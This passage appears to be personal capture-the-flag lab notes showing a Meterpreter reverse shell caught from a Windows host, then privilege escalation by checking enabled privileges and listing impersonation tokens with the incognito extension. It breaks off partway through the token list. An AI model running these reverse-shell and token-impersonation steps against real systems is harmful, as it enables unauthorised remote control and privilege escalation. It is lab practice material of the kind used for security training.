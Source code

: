#4 start the process
PS C:\users\bruce\desktop> Start-Process "reverse.exe"
        # --> no meterpreter session started... I realised I had used the wrong LHOST in the payload
#5 get a meterpreter
msf6 exploit(multi/handler) > [*] Meterpreter session 3 opened (10.11.59.68:4433 -> 10.10.88.222:49270) at 2022-02-06 05:07:29 -0500
        #(I put the new one in \users\bruce\Downloads\)
#6 start the session meterpreter:
msf6 exploit(multi/handler) > sessions 4
[*] Starting interaction with 4...










### PRIVESC TIME ###
#1
PS C:\users\bruce\Downloads> whoami /priv

PRIVILEGES INFORMATION
----------------------

Privilege Name                  Description                               State   
=============================== ========================================= ========
SeDebugPrivilege                Debug programs                            Enabled 
SeSystemEnvironmentPrivilege    Modify firmware environment values        Disabled
SeChangeNotifyPrivilege         Bypass traverse checking                  Enabled 
SeRemoteShutdownPrivilege       Force shutdown from a remote system       Disabled
SeUndockPrivilege               Remove computer from docking station      Disabled
SeManageVolumePrivilege         Perform volume maintenance tasks          Disabled
SeImpersonatePrivilege          Impersonate a client after authentication Enabled 
SeCreateGlobalPrivilege         Create global objects                     Enabled
        # these were the only enabled ones
#2 load incognito mode in meterpeter shell
meterpreter > load incognito
Loading extension incognito...Success.
#3 
meterpreter > list_tokens -g
[-] Warning: Not currently running as SYSTEM, not all tokens will be available
             Call rev2self if primary process token is SYSTEM

Delegation Tokens Available
========================================
\
#-->this the one were interested in
BUILTIN\Administrators
BUILTIN\Users
NT AUTHORITY\Authenticated Users
NT AUTHORITY\NTLM Authentication
NT AUTHORITY\SERVICE 
NT AUTHORITY\This Organization
NT AUTHORITY\WRITE RESTRICTED
NT SERVICE\AppHostSvc
NT SERVICE\AudioEndpointBuilder
NT SERVICE\BFE
NT SERVICE\CertPropSvc
NT SERVICE\CscService
NT SERVICE\Dnscache
NT SERVICE\eventlog